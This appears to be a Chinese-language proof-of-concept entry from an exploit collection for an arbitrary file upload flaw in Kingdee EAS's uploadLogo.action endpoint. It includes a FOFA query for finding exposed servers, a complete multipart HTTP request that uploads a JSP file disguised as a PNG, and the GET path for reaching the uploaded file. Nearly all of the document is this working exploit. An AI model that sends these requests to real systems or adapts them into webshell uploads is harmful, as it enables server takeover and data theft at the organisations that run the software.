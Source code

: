 
## 金蝶OA-EAS系统 uploadLogo.action 任意文件上传漏洞

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## fofa
```
app="Kingdee-EAS"
```
![image](https://github.com/user-attachments/assets/cf3e821a-1d69-4405-b9e8-390e829d4295)

## poc
```
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
X-Forwarded-For: 
Content-Length: 632
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62

--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"

ch
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"

xx
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"


--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"

top
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="test.jsp"
Content-Type: image/png

test
--04844569c7ca7d21a3ca115dca477d62--
```
![3c4d1cec26f6b03e1876b02c2f7029d9](https://github.com/wy876/POC/assets/139549762/d7a2b831-852c-4488-bcd0-f9967d0e32a4)

## 上传文件路径
```

GET /portal/res/file/upload/xxx.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
X-Forwarded-For:
```
![47f8b3b0cc61c63d9a0d2d2b54a602dc](https://github.com/wy876/POC/assets/139549762/8a80fc29-9d8e-4622-a465-3c3c423f1e57)
